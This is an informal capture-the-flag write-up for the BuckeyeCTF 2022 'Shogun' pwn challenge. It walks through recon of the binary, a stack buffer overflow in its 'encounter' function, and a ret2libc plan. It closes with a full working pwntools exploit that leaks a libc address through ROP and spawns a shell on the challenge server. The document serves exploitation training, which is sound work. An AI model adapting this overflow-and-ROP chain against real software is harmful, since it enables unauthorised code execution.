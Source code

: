 * TOC
{:toc}

# Notice

This is currently just a hack note - aka, then notes I took on the challenge when I was playing. It will be flushed out into a full fleged writeup / walkthrough in the near future :)

This is a writeup about the 2022 BuckeyeCTF challenge `Shogun`

# BuckeyeCTF 2022 Shogun | Thomas Spencer

> Category: `pwn` | Difficulty: `medium`

# Recon

## File

```
shogun: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0c6ef59275fd0386ecdccf02d6838d327ed11b61, for GNU/Linux 3.2.0, not stripped
```

## Checksec 

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE and no Canary means we'll likely have to ROP, perhaps ret2libc

# Functions

## scroll

* Will take a `char\*` as input.

* Will slowly print out the inputted string, one character at a time

## Encounter

* Prints out a string of story flavor text

* Takes user input

    * Obvious buffer overflow, size 32 buffer with size 81 read using `fgets()`

## main

* Prints some story text

* Takes in user input

    * Checks to see if start of user input is `"Look around."`

    * If it is not, we die

    * If it is, we enter `encounter`


# Vulnerabilites

* Buffer overflow in `encounter` function

    * Large enough to allow for ROP

* No canaries or PIE, meaning we can ROP without stack data leaks

# Plan of Attack

* `ret2libc` attack, because we have an easy stack overflow into ROP vector.

**ISSUE**: Normally for `ret2libc` ROP, we would use a `Puts(Puts)` to leak a GOT table entry to find out where `libc` is. However, there is no `puts` reference in the GOT of the binary.

Must use another means to leak information...

We can use the `scroll` function, since it acts like puts!

# Exploit

* ... enter `encounter` function

* ROP to leak a GOT entry with the `scroll` function

* Use the leak to perform a `ret2libc` and grab a shell

# Final Script

```python
#!/bin/env python3

from pwn import *

DEBUG = True
FILE = "./shogun"
HOST = "pwn.chall.pwnoh.io"
PORT = 13373

POP_RDI_RET = 0x401383
RET = 0x40101a
PUTCHAR_GOT = 0x403FC0
BINSH = 0x1b45bd

context.arch = "amd64"
context.encoding = "latin"
warnings.simplefilter("ignore")

elf = ELF(FILE)
rop = ROP(FILE)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([FILE]) if (DEBUG) else remote(HOST, PORT)

BUFFER_SIZE = 0x20

print(p.recvuntil(b'disturbance. ').decode())
p.sendline(b'Look around.')
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(PUTCHAR_GOT)
payload += p64(elf.symbols["scroll"])
payload += p64(elf.symbols["_start"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.send(payload)

putCharPtr = p.recvuntil(b'You finally')[:6]
print(putCharPtr.hex())
putCharInt = int.from_bytes(putCharPtr, "little", signed=False)

libcBase = putCharInt - 0x86280

print(hex(putCharInt))

p.sendline(b'Look around.')
print(p.recvuntil(b'disturbance. ').decode())
print(p.clean().decode())
print(p.recvuntil(b'He attacks you! ').decode())

payload = b'A'*BUFFER_SIZE
payload += b'B'*8
payload += p64(RET)
payload += p64(POP_RDI_RET)
payload += p64(libcBase + BINSH)
payload += p64(libcBase + libc.symbols["system"])

assert len(payload) < 0x51
for byte in list(payload):
    assert byte != 0x0a, f"Failed"

p.sendline(payload)

p.interactive()

p.close()
```

